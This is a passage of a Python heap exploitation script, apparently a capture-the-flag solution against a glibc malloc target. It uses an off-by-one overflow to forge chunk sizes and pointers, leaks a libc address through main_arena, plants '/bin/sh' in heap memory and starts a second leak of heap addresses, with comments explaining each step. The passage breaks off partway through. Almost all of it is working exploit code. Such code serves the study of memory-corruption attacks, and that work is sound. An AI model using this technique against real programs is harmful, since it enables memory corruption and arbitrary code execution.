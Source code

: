 ```python
edit(chunk_C, b"C" * chunk_C_padding + p64(fake_prev_size) + p64(fake_size) + fake_fd + fake_bk + fake_next_chunk_prev_size + fake_next_chunk_size)
# Now edit chunk A with the off-by-one vuln. 
# This extra byte is the size of chunk_B, hence treating chunk_B as an unsortedbin candidate.
# Note the PREV_SIZE field of chunk B must be some low value to pass bad chunk size mitigation. I've set it to 0x60 so it will make sense with chunk_A.
edit(chunk_A, b"A" * 0x50 + p64(0x60) + p64(new_chunk_B_size))  # only the LSB is overflowed
# Free B, so it is moved to the unsortedbin as a 0x90 chunk
free(chunk_B)

# My goal in this code is to remainder the fake 0x90 unsorted chunk into smaller, 0x30 size chunk.
# This free small chunk would be part of the unsorted bin initially, on a next malloc() call it will move to its smallbin. 
# The remainder chunk would reside within the same memory space as another allocated chunk - chunk_C.
# Because unsortedbins store fd and bk metadata, that initially points towards the unsortedbin address at the arena - we have an arena address leak. 
# For the case of main_arena, this is a libc leak. 

# Allocate 0x60 chunk. The allocation would be made from the 0x90 free chunk.
# During the allocation, the unsortedbin (that currently only has a 0x90 chunk) would be scanned.
# The chunk would move to the smallbin[0x90] via partial unlinking.
# Afterwards, the chunk would be remainded during the binmap search of the 0x90 smallbin.
# Then, it would return the 0x60 part to the caller, while having a free chunk of 0x30 as the last remainder - which is moved to the unsortedbin head. 
# This chunk is repurposed as chunk_C, as the real size of chunk B is only 0x60 bytes, not 0x90. 
chunk_D = malloc()
# Leak its content, starting with fd and bk of the unsorted chunk 0x30
data = read(chunk_C)

main_arena_leak = u64(data[:8]) - 0x58
libc.address = main_arena_leak - libc.sym.main_arena
info(f"libc leak:{hex(libc.address)}")

# Tweak the fake chunk to size 0x50, so it will be mapped to the 0x50 smallbin. 
# Note it is still within the unsortedbin. Only at the next call to malloc it will be moved to the smallbin[0x50].
edit(chunk_D, b"D" * 0x50 + b"/bin/sh\x00" + b"\x51")

################# LEAK HEAP ######################

# This code snippet is just a reflection of the above. 
# Note however, that in order to leak heap address instead of arena address, i've linked two chunks within the smallbin[0x50].
# That way, the head chunk of that bin contains pointers to the previously-added chunk - which are heap pointers. 

chunk_A_r = malloc()
chunk_B_r = malloc()
chunk_C_r = malloc()

write_ptr = 2
write_base = 1

edit(chunk_C_r, b"C" * (chunk_C_padding - 16) + p64(write_base) + p64(write_ptr) + p64(fake_prev_size) + p64(fake_size) + fake_fd + fake_bk + fake_next_chunk_prev_size + fake_next_chunk_size)
edit(chunk_A_r, b"A" * 0x50 + p64(0x60) + p64(new_chunk_B_size))

free(chunk_B_r)

chunk_D_r = malloc()

# Tweak the fake chunk to size 0x50, so it will be mapped to the 0x50 smallbin
```